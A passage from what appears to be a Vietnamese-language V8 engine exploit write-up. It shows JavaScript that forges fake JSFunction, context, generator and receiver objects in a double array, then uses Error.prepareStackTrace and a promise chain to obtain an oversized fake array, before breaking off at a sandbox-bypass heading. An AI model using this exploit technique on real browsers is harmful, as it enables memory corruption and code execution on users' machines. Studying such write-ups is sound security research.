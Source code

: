 ```javascript=
var fakeObjArr = [pair_32_to_f(packDoubleArrMap, emptyFixedArray),
                  pair_32_to_f(fakeObjArrEle + 0x20, 0x222),// elements and length
                  pair_32_to_f(reactionMap, 0),// reaction
                  pair_32_to_f(0x61, fakeObjArrEle + 0x20),// fake fulfill
                                                            // |
                                                            // v
                pair_32_to_f(JSFunctionMap, emptyFixedArray), // fake AsyncFunctionAwaitResolve
                pair_32_to_f(emptyFixedArray, AsyncFunctionAwaitResolveClosureCodeIndex),
                pair_32_to_f(0x41414141, fakeObjArrEle + 0x38), // context

                pair_32_to_f(mapScriptContext, 0x10), // fake context
                pair_32_to_f(0x41414141, 0x41414141),
                pair_32_to_f(fakeObjArrEle + 0x50, 0x41414141), // generator
                
                pair_32_to_f(generatorMap, 0x41414141), // fake generator
                pair_32_to_f(0x41414141, fooAddr), // jsfunc
                pair_32_to_f(0x41414141, fakeObjArrEle), // receiver
                pair_32_to_f(0x41414141, 0x41414141),
                pair_32_to_f(0x0, 0x41414141),          // continuation  
]
```
* Tạo 1 hàm để dùng cho `function` field của object

```javascript=
function foo() {}
foo() // this used for fake jsfunction
```
* Ở đây ta quan tâm đến `generator_object->receiver()` ở hàm `AppendAsyncFrame`
* Trong v8 ta có thể tự custom 1 cái error handler theo như ở [đây](https://v8.dev/docs/stack-trace-api)
* `Error.prepareStackTrace(error, structuredStackTrace)`
* Sử dụng `getThis` để lấy `receiver`. Ở đây fake `receiver` là 1 pack element array với size lớn
* Hàm `prepareStackTrace` sẽ được trigger khi thực hiện truy vấn `e.stack`
* Ở đây sử dụng 

```javascript=
function PromiseLike(executor) {
    executor(()=>{}, ()=>{});
}
PromiseLike.resolve = function() {
    return {then: function(resolve, reject) {
        Promise.resolve().then(() => {throw new Error("ngu")}).then(null, (e)=>{console.log(e.stack)}).then(null, reject);
        reject()
        // resolve()
        // dp(resolve)
    }};
}
```
* Chèn thêm 1 hàm `then` ở giữa để chương trình pass `Error` cho hàm `(e)=>{console.log(e.stack)}`
# Bypass sandbox
